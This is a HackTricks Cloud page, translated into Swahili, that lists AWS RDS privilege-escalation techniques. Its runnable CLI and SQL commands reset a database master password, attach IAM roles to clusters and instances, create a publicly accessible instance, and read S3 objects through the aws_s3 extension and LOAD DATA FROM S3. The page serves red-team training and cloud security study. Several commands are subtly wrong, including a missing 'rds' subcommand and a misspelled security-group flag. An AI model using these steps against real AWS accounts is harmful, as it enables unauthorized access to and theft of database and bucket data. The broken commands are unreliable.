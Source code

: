 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa maelezo zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa ruhusa hiyo mshambuliaji anaweza **kubadilisha nenosiri la mtumiaji mkuu**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuwa na uwezo wa **kuwasiliana na hifadhidata** (zinapatikana kwa kawaida tu kutoka ndani ya mitandao).
{% endhint %}

**Athari Zinazoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### rds-db:connect

Kulingana na [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye ruhusa hii anaweza kuungana na mfano wa DB.

### Kunyanyasa Ruhusa za RDS Role IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** unapata hifadhidata inayoitwa **`rdsadmin`** unajua uko ndani ya **hifadhidata ya AWS postgresql**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa hifadhidata hii imetumika kufikia huduma nyingine yoyote ya AWS. Unaweza kuangalia hii kwa kutazama nyongeza zilizowekwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani kuwa hifadhidata hii ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuona huko ikiwa **klasta ina IAM Role yoyote iliyoambatanishwa** katika uwanja **`AssociatedRoles`**. Ikiwa ipo, unaweza kudhani kuwa hifadhidata ilikuwa **imeandaliwa kufikia huduma nyingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu) unaweza **kukisia** ni ufikiaji gani wa ziada hifadhidata ina.

Sasa, ili **kusoma faili ndani ya bakuli** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **raw AWS credentials** unaweza pia kuzitumia kufikia data ya S3 kwa:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haitaji kubadilisha chochote katika parameter group variable** ili kuweza kufikia S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ukikimbia query **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql kimbia **`show variables;`** na ikiwa variables kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani database imeandaliwa kufikia data za S3.

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa cluster ina **associated role** yoyote, ambayo kwa kawaida inamaanisha ufikiaji wa huduma za AWS).

Sasa, ili **kusoma faili ndani ya bucket** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililobainishwa kwenye mfano wa RDS uliopo**. Hii inaweza kumwezesha mshambuliaji **kupata data nyeti** au kubadilisha data ndani ya mfano.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.\
Kumbuka kwamba baadhi ya DB zinahitaji mipangilio ya ziada kama Mysql, ambayo inahitaji kubainisha ARN ya jukumu katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii tu mshambuliaji anaweza kuunda **instance mpya ndani ya klasta** ambayo tayari ipo na ina **IAM role** iliyounganishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kuwa na uwezo wa kufichua instance mpya ya database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Jaribu
{% endhint %}

Mshambuliaji mwenye ruhusa `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda mfano mpya wa RDS na jukumu lililounganishwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kubadilisha data ndani ya mfano huo.

{% hint style="warning" %}
Mahitaji mengine ya jukumu/profili ya mfano kuunganishwa (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profaili lazima iwepo kwenye akaunti yako.
* Profaili lazima iwe na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kulichukua.
* Jina la profaili ya mfano na jina la jukumu la IAM lililounganishwa lazima ianze na kiambishi `AWSRDSCustom` .
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililotajwa kwenye RDS instance iliyopo**. Hii inaweza kumwezesha mshambuliaji **kufikia data nyeti** au kubadilisha data ndani ya instance hiyo.

{% hint style="warning" %}
DB instance lazima iwe nje ya kundi kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji wa data nyeti au mabadiliko yasiyoidhinishwa kwenye data katika RDS instance.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
